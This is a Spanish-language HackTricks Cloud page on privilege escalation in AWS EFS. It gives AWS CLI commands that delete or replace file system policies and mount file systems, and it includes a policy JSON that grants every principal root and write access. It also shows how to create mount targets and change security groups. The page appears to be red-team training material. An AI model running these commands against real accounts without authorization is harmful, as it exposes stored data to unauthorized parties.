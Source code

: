# AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Más **info sobre EFS** en:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Recuerda que para montar un EFS necesitas estar en una subred donde el EFS esté expuesto y tener acceso a él (grupos de seguridad). Si esto está sucediendo, por defecto, siempre podrás montarlo, sin embargo, si está protegido por políticas de IAM, necesitas tener los permisos adicionales mencionados aquí para acceder a él.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con cualquiera de esos permisos, un atacante puede **cambiar la política del sistema de archivos** para **darte acceso** a él, o simplemente **eliminarlo** para que se otorgue el **acceso por defecto**.

Para eliminar la política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con este permiso, un atacante podrá **montar el EFS**. Si el permiso de escritura no se otorga por defecto a todos los que pueden montar el EFS, solo tendrá **acceso de lectura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Los permisos adicionales `elasticfilesystem:ClientRootAccess` y `elasticfilesystem:ClientWrite` se pueden usar para **escribir** dentro del sistema de archivos después de que esté montado y para **acceder** a ese sistema de archivos **como root**.

**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:CreateMountTarget`

Si un atacante está dentro de una **subred** donde **no existe un objetivo de montaje** del EFS. Podría simplemente **crear uno en su subred** con este privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

En un escenario donde un atacante descubre que el EFS tiene un objetivo de montaje en su subred pero **ningún grupo de seguridad permite el tráfico**, podría simplemente **cambiar eso modificando los grupos de seguridad seleccionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
